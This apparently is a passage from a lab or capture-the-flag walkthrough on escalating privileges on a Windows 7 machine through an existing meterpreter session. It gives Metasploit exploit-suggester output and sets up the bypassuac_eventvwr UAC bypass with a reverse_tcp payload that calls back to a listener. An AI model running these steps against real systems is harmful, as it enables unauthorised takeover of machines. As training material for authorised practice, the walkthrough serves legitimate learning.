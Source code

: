 ```bash
```

- We have successfully exploited the victim and gained a meterpreter shell, with the user *dark-pc\dark*.  
- The remote machine is running on Windows 7 - Build 7601 and of 64-Bit architecture.

### Escalate the privileges

By running a local exploit suggester from meterpreter, it suggested the victim is vulnerable to nine known vulnerabilities.

```bash
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.88.122 - Collecting local exploits for x86/windows...
[*] 10.10.88.122 - 34 exploit checks are being tried...
[+] 10.10.88.122 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.88.122 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 10.10.88.122 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.88.122 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.88.122 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.88.122 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.88.122 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.88.122 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.88.122 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```
From the results, the `exploit/windows/local/bypassuac_eventvwr` can be used to bypass the Windows UAC to escalate the privileges.

Background the current session (ctrl+z) and take a note of the current session number using `sessions` command from meterpreter.  
Load the exploit and set the LHOST and SESSION number to the one that was noted above.  

```bash
msf5> use exploit/windows/local/bypassuac_eventvwr
msf5 exploit(windows/local/bypassuac_eventvwr) > show options

Module options (exploit/windows/local/bypassuac_eventvwr):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                  yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.2.18.4        yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86


msf5 exploit(windows/local/bypassuac_eventvwr) > set SESSION 1
SESSION => 1
```